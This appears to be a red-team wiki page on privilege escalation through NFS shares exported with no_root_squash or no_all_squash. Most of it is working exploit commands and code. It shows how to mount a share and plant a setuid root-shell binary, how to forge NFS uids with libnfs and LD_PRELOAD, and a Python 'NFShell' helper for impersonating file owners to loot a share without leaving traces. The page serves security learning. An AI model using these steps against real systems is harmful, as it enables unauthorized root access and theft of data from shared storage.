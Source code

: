 # NFS no\_root\_squash/no\_all\_squash

## Theory

If you find some NFS directory that is configured as **no\_root\_squash**, then you can **access** it from **as a client** and **write inside** that directory **as** if you were the local **root** of the machine.

**no\_root\_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no\_all\_squash:** This is similar to **no\_root\_squash** option but applies to **non-root users**. Imagine, you have a shell as nobody user; checked /etc/exports file; no\_all\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
To enumerate the NFS server’s configuration, all we need to do is view the contents of the **/etc/exports** file.

```bash
$ cat /etc/exports
```

If you see a share with the **no\_all\_squash or no\_root\_squash** configuration, you may be able to exploit it.
{% endtab %}

{% tab title="Exploit - Remote" %}
To exploit this privilege escalation vector, we will :

* mount the share from another machine where you’re root
* place a setuid binary there
* on the victim machine, run the binary and get root

On the attacking machine, mount the vulnerable share:

```bash
#Attacker, as root user
mkdir /mnt/pe
mount -t nfs <IP>:<SHARED_FOLDER> /mnt/pe
```

Creat a setuid binary and copy it to the mounted share

```bash
# Attacker, as root user
## Create a SUID binary
echo 'int main() { setgid(0); setuid(0); system("/bin/bash -p"); return 0; }' > /tmp/root_shell.c
gcc /tmp/root_shell.c -o /tmp/root_shell

## Copy the binary and set the uid byte
cd /mnt/pe
cp /tmp/root_shell .
chmod +s root_shell
```

On the victime computer, as a low privilege user:

```bash
# Victime, as low privilege user
cd <SHAREDD_FOLDER>
./root_shell 
#ROOT shell
```

{% hint style="success" %}
You can copy the **/bin/bash** binary directly and give it SUID rights instead of compiling a new binary.
{% endhint %}
{% endtab %}

{% tab title="Exploit - Local" %}
If the `/etc/exports` has an explicit list of IP addresses allowed to mount the share, we won't be able to make the remote exploit and you will need to **abuse this trick and exploit no\_root\_squash/no\_all\_squash locally with an unprivileged user**.

When [listing the NFS shares](../../redteam/delivery/protocols/nfs.md#showmount), it will show IP allowed to mount the share:

```bash
$ showmount -e nfs-server
Export list for nfs-server:
/nfs_root   machine
```

{% hint style="info" %}
Another required requirement for the exploit to work is that **the export inside `/etc/export`** **must be using the `insecure` flag**.\
_I'm not sure that if `/etc/export` is indicating an IP address this trick will work_
{% endhint %}

This exploit relies on a problem in the NFSv3 specification that mandates that it’s up to the client to advertise its uid/gid when accessing the share. Thus it’s possible to fake the uid/gid by forging the NFS RPC calls if the share is already mounted!

#### Compiling the example <a href="#compiling-the-example" id="compiling-the-example"></a>

Here’s a [library that lets you do just that](https://github.com/sahlberg/libnfs). Depending on your kernel, you might need to adapt the example. In my case I had to comment out the fallocate syscalls.

```bash
# On local NFS server or computer that have access to the share
./bootstrap
./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/
```

#### Exploiting using the library <a href="#exploiting-using-the-library" id="exploiting-using-the-library"></a>

Let’s use the simplest of exploits:

```bash
cat pwn.c
int main(void){setreuid(0,0); system("/bin/bash"); return 0;}
gcc pwn.c -o a.out
```

Place our exploit on the share and make it suid root by faking our uid in the RPC calls:

```bash
# On local NFS server or computer that have access to the share
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so cp ../a.out nfs://nfs-server/nfs_root/
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chown root: nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://nfs-server/nfs_root/a.out
LD_NFS_UID=0 LD_PRELOAD=./ld_nfs.so chmod u+s nfs://nfs-server/nfs_root/a.out
```

All that’s left is to launch it:

```bash
# On local NFS server or computer that have access to the share
$ /mnt/share/a.out
# root shell
```
{% endtab %}
{% endtabs %}

### NFShell <a href="#bonus-nfshell" id="bonus-nfshell"></a>

Once local root on the machine, I wanted to loot the NFS share for possible secrets that would let me pivot. But there were many users of the share all with their own uids that I couldn’t read despite being root because of the uid mismatch. I didn’t want to leave obvious traces such as a chown -R, so I rolled a little snippet to set my uid prior to running the desired shell command:

{% tabs %}
{% tab title="NFShell" %}
```python
#!/usr/bin/env python
import sys
import os

def get_file_uid(filepath):
    try:
        uid = os.stat(filepath).st_uid
    except OSError as e:
        return get_file_uid(os.path.dirname(filepath))
    return uid

filepath = sys.argv[-1]
uid = get_file_uid(filepath)
os.setreuid(uid, uid)
os.system(' '.join(sys.argv[1:]))
```

You can then run most commands as you normally would by prefixing them with the script:

```
# ll ./mount/
drwxr-x---  6 1008 1009 1024 Apr  5  2017 9.3_old

# ls -la ./mount/9.3_old/
ls: cannot open directory ./mount/9.3_old/: Permission denied

# ./nfsh.py ls --color -l ./mount/9.3_old/
drwxr-x---  2 1008 1009 1024 Apr  5  2017 bin
drwxr-x---  4 1008 1009 1024 Apr  5  2017 conf
drwx------ 15 1008 1009 1024 Apr  5  2017 data
drwxr-x---  2 1008 1009 1024 Apr  5  2017 install
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe" %}

{% embed url="https://www.errno.fr/nfs_privesc.html" %}

{% embed url="https://www.errno.fr/nfs_privesc.html" %}
